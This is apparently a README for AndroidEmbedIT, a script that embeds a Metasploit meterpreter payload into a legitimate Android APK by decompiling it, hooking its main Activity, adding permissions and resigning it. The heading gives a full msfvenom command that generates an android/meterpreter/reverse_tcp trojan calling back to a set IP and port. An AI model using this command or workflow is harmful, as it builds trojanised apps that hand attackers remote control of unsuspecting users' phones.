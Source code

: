 ## AndroidEmbedIT可以配合meterpreter生成的木马msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.169.76 lport=445 R > Desktop/123.apk进行

This script performs the following actions to embed a Metasploit
generated APK file into another legitimate APK.

* decompiles a Metasploit APK file, and any other APK file.
* locates the main Activity entrypoint in the APK being targeted
* copies all Metasploit APK staging code to destination APK
* adjusts the main Activity entrypoint smali file with an *invoke-static* call to kick off the Metasploit stage.
* adjusts the final AndroidManifest.xml with appropriate added permissions
* recompiles, and resigns the final APK file.

All actions are performed within the "~/.ae" directory which is created
during runtime.   The script requires that *keytool*, *jarsigner*, and *apktool*
are installed.  A KALI distribution will work well to run this script on.


